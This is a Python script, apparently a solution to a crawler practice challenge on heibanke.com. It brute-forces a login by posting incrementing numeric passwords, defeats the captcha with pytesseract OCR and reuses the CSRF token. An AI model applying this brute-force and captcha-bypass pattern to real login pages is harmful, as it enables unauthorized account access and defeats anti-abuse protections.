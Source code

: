 ```python
def cleanyzm(yzm,s,num):
    a=yzm
    if len(a.replace(' ',''))!=4:
        print("打回")
        get_img(s,num)
    else:
        yzm=a.upper()
        print(yzm)
        return yzm

def get_img(s,num):
    res=s.get(web_ex04).text
    img=re.findall('![]((.*?))',res)
    img_html='http://www.heibanke.com'+str(img[0])
    print("验证码下载完毕")
    urllib.request.urlretrieve(img_html,"yzm.png")
    yzm=pytesseract.image_to_string(Image.open('yzm.png'),lang='num')
    cshu=re.findall(r'img src="/captcha/image/(.*)/" alt="captcha"', res)[0]
    token1 = s.cookies['csrftoken']
    yzm=cleanyzm(yzm,s,num)
    dataWebsite1 = {'username': 'user',
                        'password': num,
                        'csrfmiddlewaretoken': token1,
                        'captcha_0':cshu,
                        'captcha_1':yzm
                        }
    res=s.post(web_ex04, data=dataWebsite1).text
    if u'密码错误' in res:
        print(num,"密码错误")
        num=num+1
        get_img(s,num)
    else:
        if u'验证码输入错误' in res:
            print(num,"验证码输入错误！")
            get_img(s,num)
        else:
            print(num,"成功！")
            title=re.findall("<title>(.*?)</title>",res)
            word=re.findall("<h1>(.*?)</h1>",res)
            word2=re.findall("<h3>(.*?)</h3>",res)
            print('\n'.join([title[0],word[0],word2[0]]))
            sys.exit(0)

def main():
    s=get_s()
    #global num
    num=0             ########设置开始运行的密码，直到成功程序退出！
    get_img(s,num)


if __name__ == '__main__':
    main()

```
